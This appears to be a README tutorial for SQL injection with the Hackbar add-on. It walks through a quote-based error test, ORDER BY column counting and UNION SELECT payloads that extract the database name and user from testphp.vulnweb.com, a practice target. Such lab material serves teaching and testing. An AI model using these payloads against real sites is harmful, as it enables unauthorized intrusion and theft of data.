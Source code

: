 # sqlinjection-hackbar-cyberfox

Pre-requisite:
1. Cyberfox Browser - (Linux/Windows).<br>
    To install cyberfox on linux using .deb <pre>dpkg -i <packagename>.deb</pre>
2. Hackbar v2.9.xpi
3. noredirect-1.3.2.13-fx+sm.xpi
4. tamper-data.xpi


Open the target page:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1</pre>

Test for SQL injection vulnerability by adding ' in the last:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1'</pre>

If you see an SQL error like:
<pre>You have an error in your SQL syntax</pre>
it means the parameter is likely vulnerable to SQL injection.

Exploit SQL Injection (UNION-Based)
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 3--</pre>
If the page works fine, try increasing the number: ORDER BY 4--, ORDER BY 5--…
When you get an error, go back to the last number that worked. That’s your number of columns.

Once you know the number of columns, say 3, try:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1,2,3--</pre>
You’ll see values like 1, 2, 3 appear on the page — it confirms the injection.

You can now extract useful data like:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1, database(), user()--</pre>


